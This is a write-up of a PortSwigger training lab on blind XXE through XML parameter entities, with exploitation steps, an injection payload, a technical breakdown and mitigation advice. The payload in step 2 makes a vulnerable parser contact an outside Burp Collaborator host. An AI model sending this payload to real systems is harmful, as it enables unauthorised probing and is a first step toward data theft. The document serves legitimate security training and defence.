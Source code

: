 
### 📁 `README.md` — Blind XXE via Parameter Entity (OOB)

# 🌐 Blind XXE via Parameter Entities and Out-of-Band Interaction

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** Blind XXE using Parameter Entities  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Trigger a DNS/HTTP interaction with Burp Collaborator using a parameter entity (`%xxe`) in a blind XXE context.

---

## 🔍 Lab Summary

This lab demonstrates a **blind XXE vulnerability** that:
- **Blocks standard external entities** (like `<!ENTITY xxe SYSTEM ...>`)
- Accepts **parameter entities** (like `<!ENTITY % xxe SYSTEM ...>`)
- Requires **out-of-band (OOB)** detection using **Burp Collaborator**

---

## ⚙️ Exploitation Steps

### 1. 🕵️ Intercept the Request

Navigate to any product and click **"Check stock"**  
In **Burp Suite Professional**, intercept the following request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 2. 💣 Inject the Parameter Entity Payload

Replace the XML body with this **parameter-based XXE injection**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR-SUBDOMAIN">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

> 🔧 In Burp: Right-click → “Insert Collaborator Payload” to get a valid subdomain.

---

### 3. 🔍 Monitor for Interactions

In the **"Burp Collaborator"** tab:

* Click **"Poll now"**
* Wait a few seconds
* You should see **DNS and/or HTTP requests** from the vulnerable server

This confirms the server parsed and resolved the external entity declared via `%xxe`.
![XXE](https://github.com/Kabilala/xxe/blob/main/lab4/lab4.png)
---

## 🧠 Technical Breakdown

| Feature   | Description                                                |
| --------- | ---------------------------------------------------------- |
| `% xxe`   | Parameter entity (used in DTD context only)                |
| `%xxe;`   | Triggering the entity resolution inside the DTD            |
| **Blind** | No visible output — detection happens through Collaborator |
| **OOB**   | Out-of-band detection using DNS or HTTP requests           |

🧪 Parameter entities are interpreted differently by XML parsers. This trick bypasses filters that block regular `<!ENTITY xxe SYSTEM ...>` usage.

---

## 🔐 Mitigations

* **Disable DTDs** completely in XML parsers
* Prevent use of both `%` parameter entities and `SYSTEM` calls
* Isolate internal services from XML-parsing components
* Use secure XML parsers (e.g. `defusedxml`, `SAXParserFactory` with features off)

---

## 📚 References

* [📘 PortSwigger XXE Labs](https://portswigger.net/web-security/xxe/blind)
* [🧠 OWASP XXE Prevention Guide](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [📖 Burp Suite Collaborator Docs](https://portswigger.net/burp/documentation/collaborator)

